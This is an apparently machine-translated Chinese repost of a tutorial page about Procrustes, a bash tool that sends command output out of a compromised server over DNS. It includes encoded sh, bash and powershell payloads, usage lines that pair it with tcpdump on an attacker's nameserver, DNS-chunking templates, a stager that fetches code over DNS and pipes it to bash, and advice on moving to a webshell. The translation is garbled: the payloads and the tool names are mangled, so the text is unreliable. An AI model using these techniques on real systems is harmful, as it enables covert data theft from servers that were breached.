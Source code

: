# Procrustes:通过 DNS 自动过滤数据的脚本

> 原文：<https://kalilinuxtutorials.com/procrustes/>

[![Procrustes : Script To Automates The Exfiltration Of Data Over DNS](img//40a516caf7da0cbfc0bc6523f3abfdcc.png "Procrustes : Script To Automates The Exfiltration Of Data Over DNS")](https://1.bp.blogspot.com/-9Oewr4LrKrc/YE2umsNjgWI/AAAAAAAAIgg/MJlCkSxNK9w6bNRCLdHu6aaT9yk1omZtACLcBGAsYHQ/s1307/procrustes-1.gif)

Procrustes 是一个 bash 脚本，如果我们在一个服务器上盲目执行命令，除了 dns 之外的所有出站连接都被阻塞，它会自动通过 DNS 过滤数据。

该脚本目前支持 sh、bash 和 powershell，并且兼容 exec 风格的命令执行(例如 java.lang.Runtime.exec)。

*   **未暂存:**

![Procrustes : Script To Automates The Exfiltration Of Data Over DNS](img//40a516caf7da0cbfc0bc6523f3abfdcc.png "Procrustes : Script To Automates The Exfiltration Of Data Over DNS")

*   **暂存:**

![](img//6d5962877b3140f102bd2fb035509b36.png)

对于其操作，脚本将我们希望在目标服务器上运行的命令作为输入，并根据目标 shell 对其进行转换，以便允许其输出通过 DNS 进行渗透。在命令被转换之后，它被提供给“调度程序”。调度程序是由用户提供的程序，负责将命令作为输入，并通过任何必要的手段(例如利用漏洞)在目标服务器上执行该命令。在目标服务器上执行该命令后，预计它会触发对我们的 DNS 名称服务器的 DNS 请求，其中包含我们的数据块。脚本监听这些请求，直到用户提供的命令的输出被完全提取。

以下是支持的命令转换，为命令的执行而生成:`ls`

*   上海:

sh -c $@|base64${IFS}-d|sh。echo igrpzybamcardhjpzxm 9 nsbgkgxzkxxiyxnlnjqglxcwfhdjic 1 jyc 5 szw 4 njazntqxmtc 4 ndoyxrldi5 lcgo =

*   bash:

bash -c {echo，ig 5 zgb9 va 3 vwigabhgggggggggggghc 2u 2 ncatdzb 8 D2 mglwngmrxlbi 4 xnjamdmwntynldoyxrldi 5 lcgo = } | { base 64，-d}|bash

*   powershell:

**powershell-enc ugblahmabwabzqaqabgbzaae 4 ayqbtaguayaagaagaiagb7 adaafqauahsamqb9ac 4 aewayah 0 aiga 0 azgagacgawwbdag 8 abgn 2 agagagaggb0 af 0 aoga 6 afqabwabwabagyanahqacgbpg 4 azwaoafswb 5 Ahmad abag 0 algbuaguaaeab 0 AC 4 arqbumambkagbgbnaf 0 aoga 6**

**用途**

*   bash 的本地测试:

**。/procrustos _ chunked . sh-h whatev . er-d " dig @ 0+tries = 5 "-x dispatcher _ examples/local _ bash . sh—' ls-lha | grep secret '<<(STD buf-oL tcpdump–immediate-l-I any UDP port 53)**

*   使用 WSL2 对 powershell 进行本地测试:

**stdbuf-oL tcpdump–immediate-l-I 任何 udp 端口 53|。/procrustos _ chunked . sh-w PS-h whatev . er-d " Resolve-DNS Name-Server wsl 2 _ IP-Name "-x dispatcher _ examples/local _ powershell _ wsl 2 . sh—' gci | % { $ _。名称}'**

*   powershell 示例，其中我们 ssh 到我们的 NS 来获取传入的 DNS 请求。

**。/procrustos _ chunked . sh-w PS-h your DNS . host-d " Resolve-DNS name "-x dispatcher _ examples/curl _ waf . sh—' gci | % { $ _。名称} '<<(stdbuf-oL ssh user @ HOST ' sudo tcpdump–immediate-l UDP port 53 ')**

*   关于选项的更多信息

**。/procrustos _ chunked . sh–help**

**procure _ chunked vs procure _ full**

简而言之，假设我们要解密一些数据，这些数据必须分成四个数据块才能通过 DNS 传输:

*   **procrustos _ Chunked:**调用调度程序四次，每次都从服务器请求不同的块。它的有效载荷相对较小，速度很快，不需要任何特殊的配置。
*   **procrustos _ Full:**调用调度程序一次，将在服务器上执行的命令将负责分块数据并将它们发送过来。它可以有更大的有效负载大小，它很快(速度可以通过-t 参数来调整)，并且当 dns_server 在名称服务器上运行时，它的速度可以进一步优化。
*   **proc routes _ Full/Staged:**与 proc routes _ Full 相同，但是使用 stager 来获取 proc routes _ Full 用来分块数据的命令。它具有最小的“有效负载”大小，但就渗出率而言也是最慢的，因为实际的有效负载是通过 DNS 下载的。对于其操作，需要创建一个 nsconfig 脚本。注意:每个名称服务器(而不是每个目标服务器)只应创建一次 nsconfig 脚本。

它们之间的一些差异也可以通过 bash 使用的模板命令来说明:

*   **普罗克罗斯特斯 _chunked/bash:**

**% DNS _ TRIGGER % `(% CMD %)| base64-w0 | cut-b $((% INDEX %+1))-$((% INDEX %+% COUNT %))' `。%UNIQUE_DNS_HOST%**

*   **普罗克罗斯特斯 _full/bash:**

**(% CMD %)| base64-w0 | echo $(cat)–| grep-Eo '。{1，% LABEL _ SIZE % } ' | xargs-n % n labels % echo | tr ' '。|awk '{printf "%s.%s%s\n "，$1，NR，" % UNIQUE _ DNS _ HOST % " } ' | xargs-P % THREADS %-n1 % DNS _ TRIGGER %**

*   **procrustos _ full/bash/staged:**

(序列%迭代% | % S _ DNS _ TRIGGGER % $(目录)。%UNIQUE_DNS_HOST%|tr\ | printf % 02x $(cat)| xxd-r-p)| bash

|  | 普罗克罗斯特斯 _chunked | 普罗克罗斯特斯 _full | 普罗克罗斯特斯 _ 完整 _ 上演 |
| --- | --- | --- | --- |
| 负载大小开销(bash/powershell) | 150 * NLABELS/500 * NLABELS(+CMD _ LEN) | 300/800+CMD _ LEN | 150/400[1] |
| 调度员呼叫# | # output/(LABEL _ SIZE * NLABELS)[2] | one | one |
| 速度(bash/powershell) | ✔/✔ | ✔/✔ | 【三】 |
| 配置难度 | 容易的 | 轻松+ | 媒介 |

*   对于分阶段版本，该命令是通过 DNS 下载的，因此列出的大小也是总负载大小。
*   在 procroustes _ chunked 上，dispatcher 被多次调用，因此提供的命令应该在服务器上执行(直到它的所有输出都被渗透)。在向服务器传送命令(即通过调用调度程序)是时间/资源密集型的情况下，这种行为并不理想。

如果我们在服务器上执行的命令不是等幂的(功能或输出方面，例如“ls；rm 文件”)或者是时间/资源密集型的(例如，find / -name secret)。这种情况的解决方法是首先将命令输出存储到一个文件中(例如/tmp/file ),然后使用脚本读取该文件。

*   在分阶段版本中，我们有通过 DNS 获得实际有效负载所需的时间开销。应该注意的是，该脚本利用 A 记录来获取实际的有效负载。尽管这允许我们的流量更好地融入目标环境的常规流量，但它提供了有限的通道容量(例如，每个请求 4 个字节)。我们可以利用其他记录类型，如 TXT，并最小化阶段下载时间(接近于零)和阶段大小。

**提示**

*   您可能希望尽可能少地使用这个脚本，尽可能快地过渡到更高带宽的通道(例如 HTTP-webshell)
*   如果需要长文本输出，您可以先尝试压缩它，以加快导出过程，例如。/procrustes _ full . sh…-o >(setsid gunzip)—' ls-lhR/| gzip '
*   大文件/二进制文件的另一种可能性是将它们复制到一个可访问的路径，例如通过 HTTP
*   要增加 procrustes_full 中的 exfil 带宽，请在您的名称服务器上运行 dns_server。这样，我们可以避免在移动到新的块之前等待底层 DNS_TRIGGER 超时。
*   理想情况下，您应该有一个带有 NS 记录的域(-h 选项)，该记录指向您控制的服务器(我们运行 tcpdump 的服务器)。然而，如果允许目标启动到任意 DNS 服务器的连接，这可以通过将 DNS 触发器显式设置为使用我们的 DNS 服务器来避免(例如 dig @your_server whatev.er)

**学分**

*   [collab filter](https://github.com/0xC01DF00D/Collabfiltrator)–在服务器上分块数据的想法。它还使用这个脚本执行类似的功能，所以请检查一下。
*   [DNS livery](https://github.com/no0be/DNSlivery)–DNS livery 的修改版本被用作 DNS 服务器

[**Download**](https://github.com/vp777/procrustes)